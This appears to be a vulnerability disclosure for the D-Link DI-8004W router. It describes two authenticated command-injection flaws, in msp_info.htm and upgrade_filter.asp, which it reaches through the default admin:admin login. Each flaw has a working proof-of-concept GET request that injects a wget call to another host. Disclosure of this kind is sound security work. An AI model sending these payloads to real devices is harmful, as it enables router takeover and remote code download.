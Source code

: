 ### D-link DI_8004W rce

Firmware Name: DI_8004W-16.07.26A1.trx

- Model: DI_8004W

-  Version: 16.07.26A1

- Test Environment: Ubuntu 22.04 

- offical website:www.dlink.com

  download link:http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8004W





The DI-8004W is a certified router for internet behavior management.  There are two command execution vulnerability in its jhttpd's msp_info_htm function and upgrade_filter_asp.

affect version:

![image](https://github.com/user-attachments/assets/8288e5da-4021-4bc8-ac01-cd8d42b8c202)




![image](https://github.com/user-attachments/assets/9f0d75fb-1109-4bf3-9ed6-89e8ac40d167)




![image](https://github.com/user-attachments/assets/9fc30bff-b7c0-4af3-9442-fdc1db8efebe)




### exploit 1: function msp_info_htm

After logging in with the default password admin:admin, accessing the msp_info.htm page, and crafting carefully constructed parameters, it is possible to execute commands.

```
GET /msp_info.htm?flag=cmd&cmd=`wget%20http://192.168.0.2:8000/test.txt` HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Connection: close

Cookie: uid=DEiAsct48; wys_userid=admin,wys_passwd=1D3BB56A0D060C342D7DF9A62D1C746E

Upgrade-Insecure-Requests: 1




```

![image](https://github.com/user-attachments/assets/abdbb041-80de-4be0-9fac-5daf0fd8047b)













### exploit 2: function upgrade_filter_asp

After logging in with the default password admin:admin, accessing the upgrade_filter.asp page, and crafting carefully constructed parameters, it is possible to execute commands.

poc

```
GET /upgrade_filter.asp?path=http://`wget%20http://192.168.0.2:8000/test2.txt` HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Connection: close

Cookie: uid=DEiAsct48; wys_userid=admin,wys_passwd=1D3BB56A0D060C342D7DF9A62D1C746E

Upgrade-Insecure-Requests: 1


```

![image](https://github.com/user-attachments/assets/5d0b48f0-d26f-4530-abaf-907accc36710)

